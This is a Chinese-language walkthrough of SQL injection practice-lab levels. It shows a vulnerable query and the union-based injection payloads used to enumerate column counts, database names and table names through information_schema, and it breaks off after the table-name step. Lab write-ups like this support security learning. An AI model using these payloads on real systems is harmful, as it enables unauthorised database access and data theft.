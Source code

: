  # Pass0

![image-20221223170251378](assets/image-20221223170251378.png)

GET型，数字型注入

这一关和上一关不同处就在于 这一关的参数外面没有加引号，也就不用考虑闭合的问题

![image-20221223221643015](assets/image-20221223221643015.png)

后续步骤都除了需去掉id=1后面的引号其他上一关一模一样，这里就不过多赘述。

# Pass03

![image-20221223221932520](assets/image-20221223221932520.png)

GET型 基于错误的单引号括号字符型注入

我们输入`?id=1'`,报错，说明这我们输入的内容是在一对圆括号中

![image-20221223222521063](assets/image-20221223222521063.png)

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

所以其实这一关和第一关还是没有多大区别，我们只需在闭合单引号的同时闭合圆括号

``?id=1') order by 4 --+`报错，没有第4列`

``?id=-1') union select 1,2,3 --+`显示2，3是回显点。`

`?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata --+`查库名

`?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`查表名
